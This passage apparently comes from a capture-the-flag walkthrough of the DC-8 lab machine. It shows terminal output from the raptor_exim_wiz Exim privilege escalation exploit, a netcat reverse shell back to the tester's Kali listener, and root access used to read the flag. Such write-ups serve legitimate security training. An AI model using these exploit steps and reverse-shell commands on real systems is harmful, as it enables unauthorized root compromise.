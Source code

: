 ~~~
354 Enter message, ending with "." on a line by itself
250 OK id=1kRg4Q-0004fK-Ff
221 dc-8 closing connection

Waiting 5 seconds...
-rwxr-xr-x 1 www-data www-data 117208 Oct 12 04:27 /tmp/pwned
$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
~~~

## The netcat method

Let's try the second method. You'll need to edit the script to put your IP address. Also start a listener on your Kali machine.

~~~
www-data@dc-8:/tmp$ chmod +x raptor_exim_wiz
chmod +x raptor_exim_wiz
www-data@dc-8:/tmp$ ./raptor_exim_wiz -m netcat
./raptor_exim_wiz -m netcat

raptor_exim_wiz - "The Return of the WIZard" LPE exploit
Copyright (c) 2019 Marco Ivaldi <raptor@0xdeadbeef.info>

Delivering netcat payload...
220 dc-8 ESMTP Exim 4.89 Mon, 12 Oct 2020 04:52:30 +1000
250 dc-8 Hello localhost [::1]
250 OK
250 Accepted
354 Enter message, ending with "." on a line by itself
250 OK id=1kRgSM-0004iN-Kw
221 dc-8 closing connection

Waiting 5 seconds...
(UNKNOWN) [172.16.222.128] 5555 (?) : Connection refused
~~~

# Root flag

We now have a root shell and we can get the root flag:

~~~
Keyboard interrupt received, exiting.
kali@kali:/data/DC_8/files$ rlwrap nc -nlvp 5555
listening on [any] 5555 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.163] 34698
id
uid=0(root) gid=113(Debian-exim) groups=113(Debian-exim)
python -c "import pty;pty.spawn('/bin/bash')"
root@dc-8:/var/spool/exim4# cd /root
cd /root
root@dc-8:/root# ls -la
ls -la
total 28
drwx------  2 root root 4096 Sep  6  2019 .
drwxr-xr-x 22 root root 4096 Sep  5  2019 ..
lrwxrwxrwx  1 root root    9 Sep  5  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-r--------  1 root root  101 Sep  6  2019 .google_authenticator
-rw-------  1 root root  360 Sep  5  2019 .mysql_history
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
-rw-r--r--  1 root root 1320 Sep  6  2019 flag.txt
root@dc-8:/root# cat flag.txt
~~~